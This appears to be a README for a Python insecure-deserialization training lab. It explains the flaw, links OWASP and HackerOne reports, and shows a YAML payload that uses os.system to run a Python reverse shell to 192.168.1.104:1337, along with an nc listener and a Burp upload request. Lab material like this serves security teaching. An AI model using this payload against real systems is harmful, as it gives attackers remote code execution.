 # python-InsecureDeserialization

Unsafe Deserialization (also referred to as Insecure Deserialization) is a vulnerability wherein malformed and untrusted data input is insecurely deserialized by an application. It is exploited to hijack the logic flow of the application end might result in the execution of arbitrary code. Although this isn't exactly a simple attack to employ, it featured in OWASP's Top 10 most recent iteration due to the severity of impact upon compromise.

The process of converting an object state or data structure into a storable or transmissible format is called serialization. Deserialization is its opposite - the process of extracting the serialized data to reconstruct the original object version.

Unsafe Deserialization issues arise when an attacker is able to pass ad hoc malicious data into user-supplied data to be deserialized. This could result in arbitrary object injection into the application that might influence the correct target behavior.

![Getting Started](0.png)

## Impact

A successful Unsafe Deserialization attack can result in the full compromise of the confidentiality, integrity, and availability of the target system, and the oft-cited Equifax breach is probably the best example of the worst outcome that can arise. In Equifax's case, an unsafe Java deserialization attack leveraging the Struts 2 framework resulted in remote code execution, which, in turn, led to the largest data breach in history.

## Owasp  👑

https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html

https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization


## How to Serialize pickle library

![Getting Started](1.png)


## How to Serialize Yaml   

![Getting Started](2.png)

## install Lab 

    docker run -itd -p 5050:5050 mhnamadi/pythondeserialization-1:latest

![Getting Started](3.png)

## Attack Payload 

    name: mh namadi payment 3
    reason: !!python/object/apply:os.system ["echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.1.104\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' > shell.py && python shell.py &"]
    merchant: Catch Taxi
    amount: 85
    card: 4111111111111111

    # nc -lvp 1337

## Burp Request

    POST /yaml_hammer HTTP/1.1
    Host: localhost:5050
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Length: 324
    User-Agent: HTTPie/3.0.2
    Content-Type: multipart/form-data; boundary=8b572135883f4c079e31f790d2827955

    --8b572135883f4c079e31f790d2827955
    Content-Disposition: form-data; name="file"; filename="reverse_shell.yml"

    name: mh namadi payment 3
    merchant: Catch Taxi
    amount: 85
    card: 4111111111111111
    --8b572135883f4c079e31f790d2827955
    Content-Disposition: form-data; name="submit"

    submit
    --8b572135883f4c079e31f790d2827955--


![Getting Started](4.png)

## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/


## Hint Fix  🧐 🤓

https://github.com/instrumenta/openapi2jsonschema/commit/ed24ff4e3fc5c838490525d56048db3cee90329f?diff=split#diff-453148a7ebe7bb6a47c6d09567ec9befL151
     
## Fix 

We encourage you to contribute to Project and Fix Codes

If you want to pull request please follow this :

CONTRIBUTION.md

## Report Example

1. https://hackerone.com/reports/1174185
2. https://hackerone.com/reports/838196
3. https://hackerone.com/reports/562335
4. https://hackerone.com/reports/350401
5. https://hackerone.com/reports/350418
6. https://hackerone.com/reports/350418
7. https://hackerone.com/reports/453791
8. https://hackerone.com/reports/274990
9. https://blog.sorcery.ie/posts/higherlogic_rce/
10. https://medium.com/@frycos/searching-for-deserialization-protection-bypasses-in-microsoft-exchange-cve-2022-21969-bfa38f63a62d
11. https://irsl.medium.com/the-nomulus-rift-935a3c4d9300
12. https://blog.gypsyengineer.com/en/security/detecting-jackson-deserialization-vulnerabilities-with-codeql.html
13. https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464
